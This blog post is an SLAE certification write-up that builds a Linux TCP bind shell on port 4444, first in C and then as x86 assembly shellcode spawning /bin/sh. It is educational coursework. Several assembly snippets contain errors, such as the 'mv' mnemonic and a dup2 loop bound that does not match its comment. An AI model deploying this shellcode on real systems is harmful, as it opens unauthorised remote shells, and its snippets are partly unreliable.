 ```yaml
---
layout: post
title: "SLAE: Custom TCP Bind shell"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-15
header:
  teaser:
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_1)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

This assignment will see us create and examine shellcode with a Bind TCP shell as the payload.

We start by retrieving a bind TCP shell written in C so that we can break it down to determine how we wil go about building our own shellcode:
```
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int socketfd; 
int socketid; 

struct sockaddr_in hostaddr; 

int main() { 
    //Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(PF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

    //Initialize sockaddr struct 
    hostaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    hostaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //Bind our socket as defined
    bind(socketfd, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    //Start Listening
    listen(socketfd, 2); 

    //Accept incoming connection 
    socketid = accept(socketfd, NULL, NULL); 

    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketid, 0); 
    dup2(socketid, 1); 
    dup2(socketid, 2); 

    //Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
} 
```

After looking at the above we know we will need to make use of the following syscalls and functions under socketcall:

* __NR_socketcall	  102
    * SYS_SOCKET 	1
    * SYS_BIND  	2
    * SYS_CONNECT	3
    * SYS_LISTEN 	4
    * SYS_ACCEPT 	5   
* __NR_dup		     41
* __NR_execve		   11

Now, the SYS_SOCKET function takes 3 args as per man page:

![socketcall](/assets/images1/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

I ended up taking the easy route and using google to obtain these values, as this was the path of least resistance.
```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value obviously goes in al
* function type (socket, bind, listen etc) goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    mv al, 102   ; we move the socketcall syscall value into al, to avoid padding
    mv bl, 1     ; we set function to 1, which is the value of socket (this will change later on to accomodate accept, listen, bind etc)
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
We now move onto setting up the bind section of the shell.
A quick rundown of what we need to achieve here is:
* set sycall as socketcall again
* this time function will be 2 (SYS_BIND)
* we will need to reference the result of our previously executed syscall (now stored in esi)
* Specify listening address as 0.0.0.0 (all available)
* Specify the port value (/x11/x5C‬, then /x5C/x11 for little endian)
* Specify adress length

I ended up having to do some further research into setting the IP address, as per the man page for bind, the second arg is struct sockaddr, as per man 7 ip this means the address needs to consist of: sin_family, sin_port and sin_addr

![bind](/assets/images/SLAE_1/3.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ebx, ebx
    ;create struct sockaddr
    push ebx ; push 0x0 on for listening address
    push word 0x5C11 ; push on reversed value of 4444
    push 0x2 ; push value of AF_INET MAY NEED TO BE WORD??
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    mv bl, 2 ; we set function to 2, which is the value of bind
    xor eax, eax
    mv al, 102
    int 0x80
```

The next part of the code will set up a listener, man page excerpt below.

![listen](/assets/images/SLAE_1/4.JPG)

SO for the listener we need to provide the socket and backlog length, a simple arg that simply specifies the queue for pending connections.

```
    push 0x1 ; set backlog to 1 (arg 2)
    push esi ; push socket fd on (arg 1)
    mov ecx, esp ; mov the parameters required for listen into ecx for when we call the syscall
    mov bl, 0x4 ; listen function value
    mov al, 102
    int 0x80
```
Now we move onto the accept function.
As per man page, arguments will include our socket fd, struck sockaddr and addr length.

![accept](/assets/images/SLAE_1/5.JPG)

```
    push 0x10 ; length
    xor eax, eax
    push eax ; address
    push esi ; socket fd
    mov ecx, esp
    mov bl, 0x5 ; value for accept function
    mov al, 102
    int 0x80
```
The DUP syscall took me a long time to figure out, it was only after reviewing other students code multiple times I realised exactly what is needed, and it is a lot simpler than I initially thought.
Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx,ecx

loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f2f
    push 0x6e69622f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
With all our pieces in place we compile our .nasm code and test it, to make sure that the next steps are not wasted on bad code (this was a good idea, as I realised I forgot to point the stack pointer to ecx in my accept section, which meant my program would just spawn /bin/sh locally xD)
After all this, we can see as below I was able to connect to the bind shell:

![start_bindlisten](/assets/images/SLAE_1/7.JPG)

![connect_to_shell](/assets/images/SLAE_1/9.JPG)

At this point I felt the urge to start enumerating and look for privesc, however I contained myself and continued with the exercise.
Using some [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) I extracted the raw shellcode from my confirmed working binary:
![connect_to_shell](/assets/images/SLAE_1/8.JPG)

We will now WRAP this assignment up by creating (read: stealing and modifying) a [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) that will allow us to customise the port.
We will take our shellcode from the previous step and use that as our template, the the \x11\x5c (4444) taken out.

A per screen below the script is both fool-proof and accurate.
![wrapper.py](/assets/images/SLAE_1/10.jpg)
